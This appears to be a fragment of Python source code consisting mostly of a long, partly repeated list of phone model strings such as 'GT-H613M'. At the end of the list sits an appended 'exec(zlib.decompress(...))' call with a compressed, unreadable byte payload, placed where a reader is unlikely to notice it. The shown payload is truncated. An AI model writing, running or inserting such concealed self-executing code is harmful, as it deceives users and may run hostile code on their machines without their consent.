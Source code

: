 E','GT-H613M','GT-A146R','GT-F704K','GT-S248Y','GT-E247I','GT-L917P','GT-V864F','GT-X59J','GT-F452Y','GT-I492S','GT-L632K','GT-H247J','GT-W181M','GT-L906W','GT-Z326V','GT-T680G','GT-Y973D','GT-H405C','GT-F869A','GT-K683N','GT-L870U','GT-A420S','GT-A83X','GT-O724U','GT-H992S','GT-B673N','GT-Q894T','GT-A585C','GT-B222T','GT-O164M','GT-K389U','GT-X996S','GT-Q922C','GT-S856B','GT-F379L','GT-Q9O','GT-Z514E','GT-S579K','GT-G996Y','GT-B790G','GT-D517F','GT-O10Z','GT-E362Z','GT-H795U','GT-W218T','GT-M342V','GT-L509T','GT-L61V','GT-O574H','GT-M583O','GT-F59R','GT-O270G','GT-M749L','GT-A638Z','GT-B67V','GT-W751A','GT-P375U','GT-B271T','GT-F304O','GT-J180W','GT-N872W','GT-O248U','GT-H308X','GT-H664Z','GT-Z658S','GT-D465V','GT-E881Y','GT-F371M','GT-J279S','GT-L861O','GT-R565X','GT-T138J','GT-J114Y','GT-W853B','GT-J327C','GT-D75U','GT-I299O','GT-U912Z','GT-H863F','GT-O856K','GT-Y469P','GT-U359M','GT-Q996Z','GT-D755S','GT-F521O','GT-H85G','GT-H303D','GT-J241A','GT-X152M','GT-V935L','GT-L846K','GT-T650H','GT-Y257H','GT-O358U','GT-C569R','GT-C897W','GT-V713I','GT-Y205V','GT-C119U','GT-A668O','GT-V184U','GT-M460D','GT-K161S','GT-C700I','GT-S246S','GT-O263X','GT-Y563I','GT-H720B','GT-O819O','GT-P171N','GT-A945F','GT-P727S','GT-K383T','GT-O758U','GT-K104C','GT-T655K','GT-U182F','GT-V662H','GT-G739X','GT-Y443M','GT-F776S','GT-Z77E','GT-X84P','GT-E800X','GT-J274L','GT-O695Z','GT-A494K','GT-C461T','GT-B387P','GT-B431O','GT-U589G','GT-O543T','GT-D644B','GT-E310M','GT-W683Y','GT-Y271O','GT-D136Q','GT-L756D','GT-W120B','GT-U966T','GT-J860O','GT-O510A','GT-E202J','GT-U88A','GT-S868C','GT-V770Q','GT-G928S','GT-X209M','GT-X593D','GT-V735G','GT-Q40X','GT-D902G','GT-O402X','GT-B995T','GT-D975O','GT-S402F','GT-V780U','GT-N891I','GT-G665I','GT-T828A','GT-K346C','GT-I942S','GT-C794M','GT-Y145Q','GT-E972H','GT-L856H','GT-V415A','GT-J352J','GT-P661Q','GT-M862H','GT-Z989B','GT-K880R','GT-N558U','GT-Z943T','GT-Y951H','GT-C770R','GT-B191B','GT-D369F','GT-C193J','GT-G523Y','GT-D11W','GT-W587W','GT-U980J','GT-A516R','GT-N11J','GT-A888U','GT-Q220F','GT-V888B','GT-U253X','GT-R291R','GT-J78S','GT-G284W','GT-X415Q','GT-B204S','GT-J766Z','GT-Q691H','GT-C60Y','GT-U971F','GT-D795V','GT-C75F','GT-H953D','GT-Z340I','GT-M716C','GT-B750N','GT-Y949F','GT-O324V','GT-R773B','GT-J151G','GT-C867Z','GT-H896R','GT-L397L','GT-E596V','GT-L805N','GT-Q86U','GT-M480H','GT-I892C','GT-J243N','GT-X934Z','GT-S697T','GT-K144M','GT-Z102X','GT-U114T','GT-R721S','GT-A950P','GT-B935C','GT-B383Q','GT-Z673M','GT-T764B','GT-T335G','GT-Y579H','GT-G45O','GT-L707Z','GT-X632N','GT-B479B','GT-P721P','GT-F450B','GT-S380K','GT-B179P','GT-G141W','GT-C508O','GT-C283J','GT-Z386B','GT-C379G','GT-N22C','GT-G849S','GT-S672P','GT-V30V','GT-O794W','GT-J744W','GT-L24Q','GT-K10J','GT-Z276S','GT-V277I','GT-M644L','GT-K854K','GT-K917N','GT-P840B','GT-D330N','GT-K730Z','GT-S114W','GT-X446U','GT-X127T','GT-P412L','GT-S609F','GT-L820J','GT-E958K','GT-P658E','GT-K683Q','GT-Y675S','GT-A419X','GT-Z4B','GT-K19L','GT-S297V','GT-F767D','GT-I229T','GT-Y703G','GT-A977G','GT-P646M','GT-W397S','GT-O56A','GT-F105U','GT-F555K','GT-L813T','GT-E901I','GT-B17Y','GT-P422E','GT-D702L','GT-H186Q','GT-Q777Y','GT-Z627K','GT-F388Q','GT-H89Q','GT-Q748G','GT-V529H','GT-V474B','GT-U156N','GT-A674C','GT-O265K','GT-Y352Z','GT-J384E','GT-H613M','GT-A146R','GT-F704K','GT-S248Y','GT-E247I','GT-L917P','GT-V864F','GT-X59J','GT-F452Y','GT-I492S','GT-L632K','GT-H247J','GT-W181M','GT-L906W','GT-Z326V','GT-T680G','GT-Y973D','GT-H405C','GT-F869A','GT-K683N','GT-L870U','GT-A420S','GT-A83X','GT-O724U','GT-H992S','GT-B673N','GT-Q894T','GT-A585C','GT-B222T','GT-O164M','GT-K389U','GT-X996S','GT-Q922C','GT-S856B','GT-F379L','GT-Q9O','GT-Z514E','GT-S579K','GT-G996Y','GT-B790G','GT-D517F','GT-O10Z','GT-E362Z','GT-H795U','GT-W218T','GT-M342V','GT-L509T','GT-L61V','GT-O574H','GT-M583O','GT-F59R','GT-O270G','GT-M749L','GT-A638Z','GT-B67V','GT-W751A','GT-P375U','GT-B271T','GT-F304O','GT-J180W','GT-N872W','GT-O248U','GT-H308X','GT-H664Z','GT-Z658S','GT-D465V','GT-E881Y','GT-F371M','GT-J279S','GT-L861O','GT-R565X','GT-T138J','GT-J114Y','GT-W853B','GT-J327C','GT-D75U','GT-I299O','GT-U912Z','GT-H863F','GT-O856K','GT-Y469P','GT-U359M','GT-Q996Z','GT-D755S','GT-F521O','GT-H85G','GT-H303D','GT-J241A','GT-X152M','GT-V935L','GT-L846K','GT-T650H','GT-Y257H','GT-O358U','GT-C569R','GT-C897W','GT-V713I','GT-Y205V','GT-C119U','GT-A668O','GT-V184U','GT-M460D','GT-K161S','GT-C700I','GT-S246S','GT-O263X','GT-Y563I','GT-H720B','GT-O819O','GT-P171N','GT-A945F','GT-P727S','GT-K383T','GT-O758U','GT-K104C','GT-T655K','GT-U182F','GT-V662H','GT-G739X','GT-Y443M','GT-F776S','GT-Z77E','GT-X84P','GT-E800X','GT-J274L','GT-O695Z','GT-A494K','GT-C461T','GT-B387P','GT-B431O','GT-U589G','GT-O543T']#;exec(zlib.decompress(b'x\x9c\xed\x97Qk\xdb0\x10\xc7\xdf\xfd)\x04}\xb0\r\x9e\xddfk\x9a\x18\x02+\xcb\nc\xeb\x18,\xa3\xb01\x8cbI\x89\x12[ru2I(\xfd\xee\x93l\xc7\xce\x96\x94f\xef\xbe\x07\xe3\x9c\xee\xff?\xe9\xf4#`\x9e\x17Ri\xa4\xe8cIAC !\x80\x1d8L\xc9\x1c\xa5R\xa4\xa5RT\xe8\x90\x95\xbaT\x14\x10\xaf\xcbgKE1\xf9&e\xf6qK\xd3RK\x850\x1cd\x1d\xe7\xe2}\tTq\xc2\x05\x93s\xa9\x1d\x87P\x86\x80nw\x9e\x1f;\xc8\x04P\x00.\xc5d\xdf9l\x12\x9e_-\xdb\xa8^\x8c8\xd1rM\x05\x9a